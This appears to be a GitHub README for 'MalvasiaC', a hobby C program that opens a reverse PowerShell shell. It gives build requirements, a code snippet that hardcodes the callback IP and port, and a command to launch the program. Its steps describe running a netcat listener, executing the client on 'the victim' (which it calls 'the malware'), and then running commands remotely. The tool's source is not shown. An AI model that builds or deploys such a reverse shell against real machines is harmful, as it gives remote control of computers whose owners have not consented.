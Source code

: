 # MalvasiaC
## C classic (minimal) reverse powershell
![Alt text](./screen.png)
This is a sample Powershell reverse shell, coded just for fun, keeping the stuff as simple as possible, considering my limited knowledge in C. Indeed the logo is much more cool than the program logic 😁

### Requirements
- The executable has been coded on Windows using Visual Stubdio Code
- Follow the instruction [here](https://code.visualstudio.com/docs/languages/cpp) to get up & running
  - The compiling tasks require you have <b>MySys64-GCC</b> in the following location: "C:\msys64\ucrt64\bin\gcc.exe"
- Add the <b>-lws2_32</b> parameter to the compiler task [file](./.vscode/tasks.json)
- Powershell must be present on the client machine (AKA the victim)

### Configuration
You can hardcode the server IP and port around [line 12](./malvasia.c)
```c
char *CLIENT_IP = "127.0.0.1";
int CLIENT_PORT = 1234;
``` 
Eventually you can pass these values as parameters
```
.\malvasia.exe 127.0.0.1 1234
```

#### In action
![Alt text](./screen2.png)
1. Run the server (in this case using netcat)
2. Execute the client (AKA the malware) passing the server IP and port
3. Have fun running some powershell command
